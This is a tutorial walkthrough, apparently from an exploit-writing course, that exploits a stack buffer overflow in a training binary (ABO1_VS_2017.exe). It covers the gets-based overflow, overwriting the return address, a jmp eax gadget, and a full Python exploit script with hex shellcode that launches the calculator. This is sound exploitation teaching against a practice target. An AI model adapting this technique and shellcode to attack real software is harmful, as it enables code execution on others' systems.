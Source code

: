 **ABO1_VS_2017.exe**

As seen in the **main** function, the idea of this **ABO** is executing the calculator.

![](media/a3075237cea6c8b6fe7e4c7b3eaab69b.png)

It immediately calls a function, which I will rename to **función**.

That function only has one parameter, which is the constant **1**

![](media/cb2f9b542f2efa65aa7b26755d03cbbe.png)

This is **function**, it stores **0x400 (1024) bytes** for the **buffer** variable that later sends it as an argument of the function **gets**.

**![](media/25fb73f6919801a01e67018bef88a3b9.png)**

Double click the **var_buffer** variable and then convert to **array**.

**![](media/2c616ec100936db9974d3571683fb7c2.png)**

![](media/0fd3f46ba2b875358d7c7c599d5fd5fb.png)

The idea is to overflow the **var_buffer** variable until overwriting the **return address (ret)**, select up to **s** which is the **stored EBP** or **base pointer**, and check the amount of bytes up to that point. So to overwrite the **ret** we only need to add **4 bytes** with the direction we want it to jump to, in this case, we want it to jump to the **payload** we are going to send via parameter and will be at the beginning of the the **var_buffer** variable

![](media/4b607a4f009f475c2d682647086c6682.png)

As soon as **ret** is overwritten, we jump to the start of the **payload**, now that we are standing on the **ret**, we have to keep in mind the state of the registers, maybe one of them points to the **payload**.

The **gets** function receives a pointer to a string as an argument, and upon returning, the direction is stored in **eax**. **Eax** is not modified, so upon getting to **retn**, it will still be pointing to the **buffer**.

![](media/d8d94fb167280963eb3787abca07c569.png)

We need to look for a **jmp eax (FFE0)** in the code.

![](media/514c05af0e986d6b812e821985249efb.png)

**![](media/87eb8e2414ddb6f8138fe0dbbe8141d0.png)**

**![](media/d0902b8decb56ff0b3a1c556076c3426.png)**

**![](media/8d1a2c752109a009dcdb290afd480837.png)**

The script will look like this:

| import sys import binascii from subprocess import Popen, PIPE   winexec_calc_shellcode = b'31c94931d2e347526863616c6389e65256648b72308b760c8b760cad8b308b7e188b5f3c8b5c1f788b741f2001fe8b4c1f2401f90fb72c5142ad813c0757696e4575f18b741f1c01fe033caeffd76a605a6863616c6354594883ec2865488b32488b7618488b761048ad488b30488b7e3003573c8b5c17288b741f204801fe8b541f240fb72c178d5202ad813c0757696e4575ef8b741f1c4801fe8b34ae4801f799ffd7' winexec_calc_shellcode = binascii.unhexlify(winexec_calc_shellcode)  buffer = winexec_calc_shellcode + (b"A" \* (1024 - len(winexec_calc_shellcode))) s = b"A" \* 4 r = b"\\xA5\\x0F\\x41\\x00"  payload = buffer + s + r  p1 = Popen("ABO1_VS_2017.exe", stdin=PIPE) print ("PID: %s" % hex(p1.pid)) print ("Enter para continuar")  p1.communicate(payload) p1.wait() input() |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Execute it and upon accepting the MessageBox, the calculator will open.

**![](media/25359563d9b1cbcf5b790f0f2dd60bd2.png)**
